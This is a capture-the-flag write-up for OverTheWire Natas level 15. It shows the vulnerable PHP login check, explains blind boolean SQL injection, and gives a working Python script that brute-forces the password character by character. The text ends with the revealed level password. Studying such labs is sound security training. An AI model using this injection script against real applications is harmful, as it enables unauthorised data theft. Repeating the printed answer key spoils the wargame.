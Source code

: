 # Writeup level 15
Again we can inject SQL-Code like in the previous challenge. This time we get only two possible results. If the query is succesful then we get the message: This user exists. If the query fails then we get the message: This user doesn't exists.  
So there is no way to directly print out the password for the user.  
We can use the result message to our advantage since we are able to inject our own SQL Code and check character by character to get the password.

**Source Code**
```php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
}
```
So like I said we are going to get the password character by character. Our SQL Query should look something like this:  
```SQL
SELECT * from users where username="natas16" AND password LIKE BINARY {ourpw}%
```
**BINARY:** to make it Case Sensitve  
**{ourpw}%:** ourpw is the String that is going to end up being the password and the % is a Wildcard in SQL. In this case it just means that the String has to start with {ourpw}.

**Exploit**
```python
import requests
import string

symbols = string.printable[:62]
password = ""
char = 0

while True:
	temp_pw = password
	password += symbols[char]
	# SQL: SELECT * from users where username="natas16" AND password LIKE BINARY {ourpw}%
	sql_injection = f"\" AND password LIKE BINARY \"{password}%"
	postdata = {'username': 'natas16' + sql_injection}
	r = requests.post('http://natas15.natas.labs.overthewire.org/?debug=true', data=postdata, auth=('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'))
	
	if "This user doesn't exist." in r.text:
		password = temp_pw
		char += 1
	else:
		char = 0

	if char == 62:
		break

	print(f"Password is: {password}")

# WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

The password is:  
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
